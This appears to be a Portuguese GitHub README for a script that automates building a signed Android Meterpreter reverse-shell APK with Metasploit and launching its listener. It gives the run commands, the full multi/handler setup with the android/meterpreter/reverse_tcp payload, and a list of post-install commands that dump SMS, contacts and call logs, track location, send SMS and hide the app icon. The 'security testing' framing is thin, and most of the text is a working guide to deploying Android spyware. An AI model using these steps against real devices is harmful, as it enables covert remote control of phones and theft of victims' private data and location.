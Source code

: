 # Script brunao.py

Este script foi desenvolvido para automatizar várias etapas de testes e manipulações no Metasploit Framework e no Android. Ele realiza as seguintes tarefas:

- Atualiza o Metasploit Framework
- Gera um payload para Android
- Descompila e recompila o APK gerado
- Atualiza a versão do APK para Android 13
- Assina e otimiza o APK
- Inicia o listener do Meterpreter para conexões

## Funcionalidades

### 1. Atualização do Metasploit Framework
O script começa atualizando o Metasploit Framework e seu Linux todo para garantir que você esteja usando a versão mais recente. Durante a execução, ele verifica a versão instalada e a atualiza automaticamente se necessário.

### 2. Geração do Payload Android
O script gera um payload para Android e o salva como um arquivo APK, pronto para ser utilizado em testes de segurança.

### 3. Descompilação do APK
O APK gerado é descompilado usando a ferramenta Apktool, permitindo que o conteúdo seja acessado e modificado.

### 4. Atualização para Android 13
Após a descompilação, o script atualiza a versão do APK para Android 13, garantindo que o arquivo gerado seja compatível com a versão mais recente do sistema operacional.

### 5. Recompilação e Assinatura do APK
O APK modificado é recompilado e assinado digitalmente usando um keystore, o que permite sua execução em dispositivos Android.

### 6. Início do Listener do Meterpreter
Por fim, o script inicia o listener do Meterpreter, configurando a porta de escuta e esperando a conexão do dispositivo.

## Requisitos

- **Python 3**: O script foi desenvolvido para Python 3.
- **Metasploit Framework**: O Metasploit Framework deve estar instalado no sistema para a execução do script.
- **Apktool**: Usado para descompilar e recompilar o APK.
- **Keystore**: Necessário para assinar o APK gerado.

## Como Usar

1. Clone este repositório ou baixe o arquivo `brunao.py`.
2. Certifique-se de que o Metasploit Framework, Apktool e o Python 3 estão corretamente instalados no seu sistema.
3. Execute o script com o seguinte comando:

    ```bash
    sudo python3 brunao.py -r
    ```

4. Durante a execução, o script pedirá algumas informações, como a porta de destino para o listener (LPORT).
5. Após a execução bem-sucedida, você terá o APK assinado e otimizado pronto para ser utilizado.

## Exemplos de Uso

- **Iniciar o script**:

    ```bash
    sudo python3 brunao.py -r
    ```
  <h3>Quando tudo tiver compilado vai pedir uma senha a senha é: password</h3>
  <h4>Se errar a senha tente de novo usando o ' sudo python3 brunao.py -r ' e tente copia a senha: <h2>password</h2></h4>

    O script vai iniciar o processo automaticamente e pedirá que você forneça as informações necessárias, como a porta (LPORT).

## Contribuições

## Sinta-se à vontade para contribuir com melhorias ou correções. Caso encontre problemas, por favor, abra uma issue no repositório.

<br>
----------------------------------------------//-------------------------------//-------------------------------------

## Comandos específicos para Android

-activity_start: Inicia uma atividade Android a partir de uma string Uri.

-check_root: Verifica se o dispositivo Android é root.

-dump_calllog: Obtém o histórico de chamadas.

-dump_contacts: Obtém a lista de contatos.

-dump_sms: Obtém as mensagens SMS.

-geolocate: Obtém a localização atual usando geolocalização.

-hide_app_icon: Oculta o ícone do aplicativo do lançador.

-interval_collect: Gerencia a coleta de dados em intervalos.

-send_sms: Envia SMS do dispositivo alvo.

-sqlite_query: Consulta um banco de dados SQLite no armazenamento.

-wakelock: Habilita ou desabilita o Wakelock.

-wlan_geolocate: Obtém a localização usando informações de WLAN.


## Iniciar coleta de Wi-Fi:


Copiar código
interval_collect -a start -c wifi
Pausar a coleta de localização geográfica:


Copiar código
interval_collect -a pause -c geo
Exibir os dados coletados de torres de celular:


Copiar código
interval_collect -a dump -c cell


## (depois que instala o apk use sempre esse) Se você quiser iniciar o listener manualmente, execute o seguinte comando no terminal:


        msfconsole


## E, após carregar o Metasploit, configure o listener com o comando:


        use exploit/multi/handler
        set payload android/meterpreter/reverse_tcp
        set LHOST [IP_LOCAL]
        set LPORT [PORTA]
        exploit

        
Troque [IP_LOCAL] pelo seu IP local e [PORTA] pela porta que você configurou (como a porta 4444).

## se querer gerar de novo o apk apague os arquivos como pastas e apk's gerado

use: 
               sudo rm -rf Brunao_kyti
               
               sudo rm -rf brunao_kyti
               
               sudo rm -rf brunao_kyti.apk

               sudo rm -rf brunao_kyti_final.apk
               
               sudo rm -rf brunao_kyti_signed.apk


## depois de gerar o apk instaler o brunao_kyti_final.apk, guarde e use o msfconsole. 

